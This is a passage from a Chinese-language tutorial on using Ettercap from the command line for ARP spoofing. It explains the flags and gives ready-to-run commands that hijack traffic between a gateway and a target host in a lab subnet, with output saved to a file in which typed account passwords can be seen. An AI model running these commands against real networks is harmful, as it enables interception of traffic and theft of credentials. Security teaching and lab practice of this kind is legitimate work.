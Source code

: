Connections：连接信息

Profiles：IP地址信息

Statistics：统计信息

## 四.命令行运行Ettercap

#### **1.运行命令讲解**

```
ettercap –i –eth0 –Tq –M arp:remote/ip(host)//net gatemask/ >>b.txt
T：指的是text文本模式
q：指的是安静模式执行这个命令，会清理掉攻击的信息，页面看起来清爽很多。
i：后面跟的是连接局域网的网卡
M：后面跟的是指定使用arp的方式
>>：输出文件
```

#### **2.攻击命令**

```
没有-q，不是安静模式，会一直跳各种信息，并且也没有保存输出内容。
注意第一个ip是网关，第二个是靶机ip
ettercap -T -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// 
其中-l参数是ettercap自带用于指定输出内容到日志中，但是输出的日志信息格式不好，难以看到有效信息。
ettercap -Tq -l a.log -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// 
#使用管道符，把输出结果放到指定文件，输出格式良好，易于观看
ettercap -Tq -i eth0  -M arp:remote /192.168.15.2// /192.168.15.100// >>b.txt
```

![image-20240928113752922](5.ARP-Ettercap劫持用户流量/image-20240928113752922.png)	

随便访问一个网站，输入账号密码。查看b.txt文件，可以看到网络流量信息。

![image-20240928113838859](5.ARP-Ettercap劫持用户流量/image-20240928113838859.png)	

